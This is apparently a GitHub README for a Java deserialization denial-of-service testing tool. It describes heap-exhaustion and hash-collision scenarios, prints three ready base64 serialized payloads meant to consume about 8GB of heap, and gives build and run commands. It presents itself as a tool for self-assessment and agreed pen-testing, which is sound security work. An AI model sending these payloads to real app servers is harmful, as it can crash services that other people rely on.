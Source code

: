 # ObjectInputStream DoS

Project to safely test Java Serialization vulnerability using DoS (OutOfMemoryError)

Provided as-is, only for self-assessment, agreed pen-testing purposes, etc.

## Basic Scenarios

* Heap Dos using nested Object[], ArrayList and HashMap
* Collision attack on Hashtable
* Collision attack on HashMap (Oracle Java 1.7)

## Payloads for 8GB heap consumption

Should be enough to test the vulnerability in most app servers.

Nested Object[] (44 bytes):

    rO0ABXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cH////c=

Nested ArrayList (67 bytes):

    rO0ABXNyABNqYXZhLnV0aWwuQXJyYXlMaXN0eIHSHZnHYZ0DAAFJAARzaXpleHB////3dwR////3cHBwcHBwcHBwcA==

Nested HashMap (110 bytes):

    rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAx3CAAAABBAAAAAc3EAfgAAP0AAAAAAAAx3CAAAABBAAAAAcHB4cHg=

## Payloads for collision attacks

* Hashtable: see hashtable.collisions.txt file (1.2M), using 10k entries for collision, deserialization takes 40s
* HashMap: (1.7 only) see hashmap.collisions.txt file (800k), using 10k entries for collision, deserialization takes 50s

# Build & Run

    mvn clean package

    java -Xmx25g -jar target/oisdos-1.0.jar

E.g:

    java -Xmx25g -jar target/oisdos-1.0.jar ObjectArrayHeap

    java -Xmx25g -jar target/oisdos-1.0.jar HashtableCollisions 5000

# Other info
* Licence: MIT
* Already reported to Oracle (in 2015) with "won't fix" response